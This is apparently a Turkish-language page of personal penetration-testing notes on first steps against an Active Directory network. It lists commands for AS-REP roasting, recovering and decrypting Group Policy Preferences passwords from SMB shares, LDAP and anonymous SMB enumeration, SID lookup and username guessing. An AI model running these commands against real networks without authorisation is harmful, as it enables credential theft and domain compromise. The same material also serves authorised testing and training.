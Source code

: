 ```yaml
---
layout: page
title: "Ağ Ortamında İlk Yapılacak İşlemler"
permalink: /linux/aga-ilk-giris/
---
```

kullanıcılar rpcclient ile girilip enumdomusers ile çekilir.

```bash
GetNPUsers.py -no-pass test.local/ -usersfile users.txt -dc-ip 10.X.X.X -request
```

Smb Dosyaları mget ile linux makineye çekildiğinde: 
```bash
find . -name "*.xml" -exec grep -i "cpassword" {} \; -print

Ardından:

gpp-decrypt.py "ŞİFRE"
```

Dns ile bulamadıysan DC'nin hostname'i 
```bash
ldapsearch -x -H ldap://IP -D "username@hostname" -w "Passwd123" -b "DC=test,DC=local" "(primaryGroupID=516)" dNSHostName sAMAccountName
```

username-anarchy ile domainde olabilecğeini düşündüğün kullanıcı kombinasyonlarını 
first, flast,first.last, firstl

LDAP 636 portu açıksa şöyle bir komut deneyebilirsin:
```bash
LDAPTLS_REQCERT=never ldapsearch -x -H "ldaps://10.x.x.x:636" -b "" -s base "(objectClass=*)" namingContexts
```

smbclient anonim loginlerinde:
```bash
smbclient -L //10.x.x.x -U "" -N
smbclient -L //10.x.x.x -N
```

Rpcclient ile enumdomusers çekemdiysen şöyle bir şey yapabilirsin:
```bash
lookupsid.py 'test.local/guest'@test.local -no-pass
```
